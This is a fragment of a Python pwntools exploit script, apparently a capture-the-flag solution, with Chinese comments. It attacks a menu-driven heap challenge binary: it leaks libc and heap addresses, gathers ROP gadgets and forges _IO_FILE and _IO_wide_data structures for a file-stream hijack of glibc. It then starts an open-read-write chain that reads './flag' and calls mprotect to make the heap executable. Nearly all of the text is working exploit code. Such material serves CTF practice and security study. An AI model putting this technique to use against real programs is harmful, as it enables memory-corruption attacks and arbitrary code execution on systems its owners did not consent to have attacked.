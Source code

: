 ```py
	p.sendlineafter(b'Enter your choice:',b'3')
	p.sendlineafter(b'edit:', str(index).encode())
	p.sendlineafter(b'Input the content', content)
	
def show_com(index: int) -> bytes:
	p.sendlineafter(b'Enter your choice:',b'4')
	p.sendlineafter(b'show:', str(index).encode())
	p.recvuntil(b'The content is here \n')
	return p.recvuntil(b'Menu:')

add_com(0x548)
add_com(0x548)
add_com(0x538)
del_com(1)
add_com(0x558)
del_com(3)

content = show_com(1)
libc_addr 	= u64(content[:8]) - 0x21b120
libc.address 	= libc_addr
heap_addr 	= u64(content[16:24])
heap_base_addr 	= heap_addr - 0x1950

leave_ret_c 	= next(libc.search(asm('leave;ret;')))
'''call [[[rdi + 0x48] + 0x18] + 0x28]; move rdi, [[rdi + 0x48] + 0x10]'''
magic_gadget 	= next(libc.search(asm('mov rbp, qword ptr [rdi + 0x48];mov rax, qword ptr [rbp + 0x18]')))
rdi_c 		= next(libc.search(asm('pop rdi;ret;')))
rsi_c 		= next(libc.search(asm('pop rsi;ret;')))
rdx_r12_c 	= next(libc.search(asm('pop rdx;pop r12;ret;')))
lock 		= libc_addr + 0x3ed8b0
wfile 		= libc_addr + 0x216F40

start_addr 	= heap_addr
widedata_addr 	= start_addr + 0xe0
orw_addr 	= start_addr + 0xe0 + 0xe8 + 0x70
shell_addr	= start_addr + 0xe0 + 0xe8 + 0x70 + 0x68

# 伪造 struct _IO_FILE_complete_plus
struct_file = flat({
	# struct _IO_FILE_complete -> _IO_FILE
	0:      0,                                          # file._flag
	0x18:   p64(leave_ret_c),                           # file._IO_read_base
	0x28:   p64(libc.symbols['_IO_list_all'] - 0x20),   # file._IO_write_ptr
	0x48: 	p64(orw_addr),                              # file._IO_save_base
	0x88:   p64(lock),                                  # file._lock
	# struct _IO_FILE_complete
	0xa0:   p64(widedata_addr),                         # file._wide_data 
	# struct
	0xd8:   p64(wfile),                                 # file._vtable
}, filler=b'\0')

# 伪造 struct _IO_wide_data
struct_widedata  = flat({
	0xe0:	p64(widedata_addr + 0xe8),                  # _IO_wide_data._IO_read_ptr
	0x150:	p64(magic_gadget),                          # 
}, filler=b'\0')

orw =  b'./flag\x00\x00'
orw += p64(rdx_r12_c) + p64(0) + p64(start_addr - 0x10)
# 调用 mprotect, 修改 heap_base_addr ~ heap_base_addr + 0x10000 为rwx
orw += p64(rdi_c) + p64(heap_base_addr)
orw += p64(rsi_c) + p64(0x10000)
```